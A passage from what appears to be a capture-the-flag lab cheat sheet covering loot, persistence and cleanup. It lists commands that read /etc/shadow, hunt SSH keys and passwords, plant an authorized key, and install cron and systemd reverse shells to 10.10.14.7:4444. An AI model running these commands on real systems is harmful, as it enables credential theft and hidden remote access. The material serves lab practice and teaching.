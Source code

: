 `cat /home/*/user.txt cat /root/root.txt`

### 6.2 Hashes

`cat /etc/shadow`

### 6.3 SSH Keys

`find /home -name "id_rsa" 2>/dev/null`

### 6.4 Sensitive Files

`ls -la /var/backups grep -Ri "password" /etc /opt 2>/dev/null`

* * *

## 7\. Persistence 

-   **SSH Key Drop**

`echo "ssh-ed25519 AAAA..." >> ~/.ssh/authorized_keys`

-   **Cronjob Reverse Shell**

`echo "* * * * * bash -i >& /dev/tcp/10.10.14.7/4444 0>&1" >> /etc/crontab`

-   **Systemd Service Hijack**

`echo '[Service] ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1" ' > /etc/systemd/system/fakesvc.service`

* * *

## 8\. Cleanup

-   Remove webshells, cron entries, backdoored users.
-   Good etiquette: leave box as you found it.
* * *

# Why Each Step Matters

-   **Recon:** Builds the map. You can’t attack what you don’t see.
-   **Foothold:** First way in — often unprivileged.
-   **Shell:** Lets you interact, but stabilize it to be useful.
-   **Enum:** Collects local info → escalates privilege.
-   **Privesc:** Moves you to root or higher users.
-   **Loot:** Prove ownership, capture flags.
-   **Persistence:** Optional but helps with re-entry.
-   **Cleanup:** Respect the lab, reset the game.
